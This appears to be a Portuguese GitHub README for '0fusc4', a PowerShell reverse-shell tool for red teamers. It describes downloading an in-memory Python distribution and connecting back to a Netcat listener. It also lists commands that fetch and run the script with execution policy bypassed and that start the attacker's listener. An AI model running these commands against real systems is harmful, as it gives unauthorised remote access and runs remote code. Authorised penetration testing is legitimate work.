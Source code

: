 # 0fusc4
0fusc4 é uma ferramenta desenvolvida para profissionais de Red Team e pentesters. Ela é um shell reverso, ou seja, permite estabelecer uma conexão remota entre dois sistemas, onde um atua como o servidor e o outro como o cliente. Essa ferramenta é implementada em PowerShell e utiliza um script Python para executar o shell reverso.

A funcionalidade principal do 0fusc4 envolve o estabelecimento de uma conexão com um servidor web onde está hospedado um arquivo ZIP contendo uma distribuição Python. Ao se conectar a esse servidor, o 0fusc4 realiza o download do arquivo ZIP e descompacta-o em um diretório temporário, carregando-o em memória.

Após a extração, o 0fusc4 executa o shell reverso por meio do script Python contido no powershell. Para que a comunicação seja possível, é necessário que um programa como o Netcat esteja ouvindo na máquina receptora para receber o shell reverso.

Durante a execução do shell reverso, o 0fusc4 aguarda comandos enviados pelo sistema receptor. Caso o comando recebido seja "exit", o 0fusc4 encerra a conexão com o servidor remoto e exclui os arquivos temporários baixados, mantendo apenas o script criado.

Dessa forma, o 0fusc4 possibilita a execução de um shell reverso por meio de um script Python, utilizando uma distribuição Python em memória. Essa ferramenta é útil para atividades de teste de penetração e avaliação de segurança, permitindo o acesso remoto a sistemas para realizar ações específicas, conforme necessário.

Use:

Servidor Windows
- curl -O "http://example.com/0fusc4.ps1"
- powershell.exe -ExecutionPolicy Bypass -File "0fusc4.ps1"

Servidor Ofensor
- python3 -m http.server 4444
- nc -lnvp 4445

![image](https://github.com/carlosalbertotuma/0fusc4/assets/13341724/eff83c3f-3887-45a1-8536-d567aa26d52d)

